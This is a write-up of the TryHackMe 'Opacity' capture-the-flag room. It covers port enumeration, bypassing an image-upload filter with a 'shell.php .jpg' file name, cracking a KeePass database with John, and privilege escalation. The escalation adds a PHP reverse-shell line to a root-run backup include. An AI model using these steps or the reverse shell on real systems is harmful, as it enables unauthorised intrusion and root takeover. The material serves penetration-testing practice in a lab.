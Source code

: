 # Opacity

[TryHackMe room link](https://tryhackme.com/room/opacity)

# Informations about the room

> Opacity is an easy machine that can help you in the penetration testing learning process.
There are 2 hash keys located on the machine (user - local.txt and root - proof.txt). Can you find them and become root?
_Hint: There are several ways to perform an action; always analyze the behavior of the application._

# Open ports

22 OpenSSH 8.2p1

80 Apache httpd 2.4.41

139 Samba smbd 4.6.2

445 Samba smbd 4.6.2

# Enumeration

When we access the webserver we are provided with a login screen

Gobuster finds a `cloud` directory 

It's an image upload website that of course accepts only image files

But it's possible to bypass this restriction by adding a space after the extension of the file that you want to upload

If you want to upload a `shell.php` just put `shell.php .jpg` and the file will upload successfully

# Privilege escalation

In the `opt` directory there is a `dataset.kdbx` file

It's a Keepass password database

We can extract the hash:

`keepass2john dataset.kdbx > forjohn.txt`

And crack it with John:

```console
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (dataset)     
1g 0:00:00:06 DONE (2023-04-07 22:41) 0.1485g/s 133.1p/s 133.1c/s 133.1C/s chichi..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Now we can open the database and we will find the password for the user `sysadmin`

We now have access to the `scripts` directory

This is the `script.php` file:

```php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

`require_once` is used to embed php code from another php file

This script does a backup of the  `scripts` directory in `/var/backups/backup.zip` every 5 minutes as said in the image upload webpage

We can extract the zipped file in the `scripts` directory, modify the `backup.inc.php` file and add a reverse shell that will run as root 

This is the php line that i added in `backup.inc.php`

```php
$sock=fsockopen("10.8.37.155",1234);shell_exec("sh <&3 >&3 2>&3");
```
